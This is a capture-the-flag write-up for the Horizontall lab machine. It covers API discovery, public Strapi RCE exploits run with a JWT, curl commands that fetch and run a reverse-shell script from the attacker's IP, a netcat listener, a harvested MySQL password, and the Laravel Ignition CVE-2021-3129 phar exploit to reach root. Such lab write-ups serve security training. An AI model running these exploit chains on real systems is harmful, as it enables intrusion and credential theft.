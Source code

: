 ## Info

### Credential
 User    | Password | Service | Note
---------|----------|---------|------
admin    |(reset)   |strapi   |
developer|#J!:F9Zt2u|MySQL    |


## Path
### User 
1. When visiting `http://10.10.11.105/`, we were redirected to `http://horizontall.htb`, so add that to `/etc/hosts`.
2. Ran `gobuster` and got ban, whoops!
3. From the icon of the website and the source code, I guessed that the website is built using Vue.
```
# HTML
 <body>
     <noscript><strong>We're sorry but horizontall doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></no    script>
     <div id="app"></div>
     <script src="/js/chunk-vendors.0e02b89e.js"></script>
     <script src="/js/app.c68eb462.js"></script>
 </body>

# JS
y = {
    name: "App",
    components: {
        Navbar: v,
        Home: w
    },
    data: function() {
        return {
            reviews: []
        }
    },
    methods: {
        getReviews: function() {
            var t = this;
            r.a.get("<http://api-prod.horizontall.htb/reviews>").then((function(s) {
                return t.reviews = s.data
            }))
        }
    }
}
```
4. From `app.c68eb462.js`, I recovered the base64 encoded image to `b64-img.png`, it was a GitHub icon.
5. From `app.c68eb462.js`, I found the API URL.
```
getReviews: function() {
    var t = this;
    r.a.get("<http://api-prod.horizontall.htb/reviews>").then((function(s) {
        return t.reviews = s.data
    }))
}
```
6. Added the API subdomain to `/etc/hosts`, then try to request to the API.
```
$ curl http://api-prod.horizontall.htb/reviews| jq
[
  {
    "id": 1,
    "name": "wail",
    "description": "This is good service",
    "stars": 4,
    "created_at": "2021-05-29T13:23:38.000Z",
    "updated_at": "2021-05-29T13:23:38.000Z"
  },
  {
    "id": 2,
    "name": "doe",
    "description": "i'm satisfied with the product",
    "stars": 5,
    "created_at": "2021-05-29T13:24:17.000Z",
    "updated_at": "2021-05-29T13:24:17.000Z"
  },
  {
    "id": 3,
    "name": "john",
    "description": "create service with minimum price i hop i can buy more in the futur",
    "stars": 5,
    "created_at": "2021-05-29T13:25:26.000Z",
    "updated_at": "2021-05-29T13:25:26.000Z"
  }
]
```
7. Visiting `http://api-prod.horizontall.htb/admin`, it was a login page and the title read "strapi", which was a "Open Source Nodes.js Headless CMS". Searched on `searchsplot`, it showed  we might be able to reset the password of admin account and get RCE.
```
$ searchsploit strapi
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                  | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                          | multiple/webapps/50239.py
```
8. When playing, the password had already been reset to `admin` by another player, so I guessed the credential and only needed to ran the RCE script.
```
$ python3 50238.py 'http://api-prod.horizontall.htb' 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwOTE4MjQ0LCJleHAiOjE2MzM1MTAyNDR9.6EhNcUkTStrJ-FNZOGyVdTSlWV5j0dMZNyuN6tVTCyo' 'curl 10.10.17.233:8000/rev.sh -o /tmp/a' 10.10.17.233
$ python3 50238.py 'http://api-prod.horizontall.htb' 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwOTE4MjQ0LCJleHAiOjE2MzM1MTAyNDR9.6EhNcUkTStrJ-FNZOGyVdTSlWV5j0dMZNyuN6tVTCyo' 'sh /tmp/a' 10.10.17.233

$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.11.105 37378
bash: cannot set terminal process group (1783): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```
9. At the bottom left of the admin panel of strapi, it wrote `Powered by Strapi v3.0.0-beta.17.4`, so we can confirm it was affected. 

10. The user flag was readable by all users, so got the user flag. (After I reset the box, the permissino didn't change, so maybe it was intended ?)

### Root 
1. Found MySQL credential at `/opt/strapi/myapi/config/environments/development/database.json`.
```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
2. `http://127.0.0.1:8000` was running `Laravel v8`.
```
strapi@horizontall:/etc$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN
...
strapi@horizontall:/etc$ curl 127.0.0.1:8000
...
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
        Laravel v8 (PHP v7.4.18)
</div>
```

3. Since it showed the stack trace, Laravel was running in debug mode.
```
strapi@horizontall:/etc$ curl 127.0.0.1:8000/profiles
...
#49 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Pipeline/Pipeline.php(103): Illuminate\Pipeline\Pipeline-&gt;Illuminate\Pipeline\{closure}()
#50 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(141): Illuminate\Pipeline\Pipeline-&gt;then()
#51 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\Foundation\Http\Kernel-&gt;sendRequestThroughRouter()
#52 /home/developer/myproject/public/index.php(52): Illuminate\Foundation\Http\Kernel-&gt;handle()
#53 /home/developer/myproject/server.php(21): require_once('/home/developer...')
#54 {main}
-->
</body>
</html>
```
4. Laravel before version 8.4.2 was vulnerable to CVE-2021-3129, so I found the [script](https://github.com/ambionics/laravel-exploits
) on GitHub, then modified it to compat with `python3.6` and ran it to get the root flag.
```
$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 sysytem id

strapi@horizontall:/tmp/.a$ python3 laravel-ignition-rce.py http://127.0.0.1:8000/ /tmp/.a/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```
